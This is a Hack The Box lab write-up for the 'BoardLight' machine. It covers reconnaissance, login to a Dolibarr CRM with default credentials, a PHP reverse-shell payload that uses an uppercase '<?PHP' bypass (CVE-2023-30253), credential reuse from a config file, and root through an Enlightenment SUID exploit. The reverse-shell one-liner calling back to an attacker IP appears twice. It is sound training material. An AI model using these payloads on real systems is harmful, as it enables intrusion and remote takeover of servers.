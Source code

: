 ```yaml
---
date: 2024-09-27T22:53:03-05:00
# description: ""
image: "/images/HTB-BoardLight/BoardLight.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: BoardLight"
type: "post"
---
```


* Platform: Hack The Box
* Link: [BoardLight](https://app.hackthebox.com/machines/BoardLight)
* Level: Easy
* OS: Linux
---

[Read this write up in french](https://scorpiosec.com/fr/posts/htb-boardlight/)

BoardLight begins with a subdomain discovery where we find a Dolibarr instance, which we access by using default credentials. The initial foothold is obtained via a PHP reverse shell coupled with an uppercase manipulation technique. From there we discover a configuration file containing credentials, allowing us to take over another account. Finally, we gain root privileges by exploiting a vulnerability in Enlightenment.

Target IP address - `10.10.11.11`

## Scanning

```
./nmap_scan.sh 10.10.11.11 BoardLight
```

**Results**

```shell
Running detailed scan on open ports: 22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 23:01 CDT
Nmap scan report for 10.10.11.11
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: board.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.05 seconds
```

We discover two open ports: SSH (22) and HTTP (80), we also add `board.htb` to the hosts file to facilitate the enumeration.

## Enumeration

At `http://board.htb/` we find a static website for a cybersecurity consulting firm. The buttons are not functional and nothing really stands out. 

![BoardLight website](/images/HTB-BoardLight/boardlight_website.png)

We try directory brute forcing but nothing intersting is found.

```
gobuster dir -u http://board.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![Directory bruteforcing](/images/HTB-BoardLight/gobuster_cmd.png)

With subdomain enumeration we find a valid subdomain called `crm`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://board.htb -H "Host: FUZZ.board.htb" -ic -fs 15949
```

![Subdomain enumeration](/images/HTB-BoardLight/ffuf_cmd.png)

At `http://crm.board.htb/` we find a login page for [Dolibarr](https://www.dolibarr.org/).

![Dolibarr ERP](/images/HTB-BoardLight/crm_board.png)

With a quick Google search we discover that the default credentials for Dolibarr instances are `admin:admin` and using them grant us access.

![Dolibarr default credentials](/images/HTB-BoardLight/Dolibarr_default_creds.png)

![Dolibarr dashboard](/images/HTB-BoardLight/dolibarr_dashboard.png)

Although CRM, CMS, and ERP systems serve different purposes, they often share a common vulnerability: once logged in, it's frequently possible to achieve remote code execution (RCE) by executing custom code.

In the`Websites` section we create a new website.

![Dolibarr new website](/images/HTB-BoardLight/new_website.png)

Then we create a page.

![Dolibarr new page](/images/HTB-BoardLight/new_page.png)

After the creation of the page there is a `Edit HTML Source` button we can use to add some custom code.

![Edit HTML source button](/images/HTB-BoardLight/edit_source.png)

We try a basic php reverse shell.

```php
<?php system('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"') ?>
```

![Dolibarr reverse shell](/images/HTB-BoardLight/rev_shell1.png)

We then get an error, it seems that we cannot use `system`. From here we can either find another method to get a shell or try to bypass the security measure.

![Dolibarr php system error](/images/HTB-BoardLight/error_dolibarr.png)

## Initial Foothold

Searching exploits for Dolibarr, we find [this page](https://www.vicarius.io/vsociety/posts/exploiting-rce-in-dolibarr-cve-2023-30253-30254) for `CVE-2023-30253` allowing us to get remote code execution via uppercase manipulation.

Let's try again with the php in uppercase letters (PHP).

```php
<?PHP system('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"') ?>
```

![Dolibarr RCE](/images/HTB-BoardLight/Dolibar_rce.png)

After saving the modified code we get a shell as `www-data`.

![foothold shell](/images/HTB-BoardLight/foothold.png)

Checking the `passwd` file we notice a user called `larissa` and of course we cannot access her home directory.

![larissa user](/images/HTB-BoardLight/larissa_user.png)

After using linpeas for the system enumeration we find a configuration directory at `/var/www/html/crm.board.htb/htdocs/conf/`.

![linpeas results](/images/HTB-BoardLight/linpeas_results.png)

![conf directory](/images/HTB-BoardLight/conf_directory.png)

We then find some credentials in the `conf.php` file.

![dolibar conf credentials](/images/HTB-BoardLight/dolibarr_creds.png)

With the password we access larissa's account via SSH and find the user flag in her home directory.

![user flag](/images/HTB-BoardLight/user_flag.png)

## Privilege Escalation

We discover that larissa is not allowed to run sudo.

![sudo command](/images/HTB-BoardLight/sudo_cmd.png)

Let's run linpeas again to find some leads for privilege escalation. A file called `enlightenment` owned by root with the SUID bit set stands out, there is also a reference to [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706).

![SUID on enlightenment binary](/images/HTB-BoardLight/suid-file.png)

[Here](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main) we find a PoC for the vulnerability. After running the script on the target we gain root privileges and the root flag is accessible at `/root/root.txt`.

![root flag](/images/HTB-BoardLight/root_flag.png)

Thanks for reading this write up!

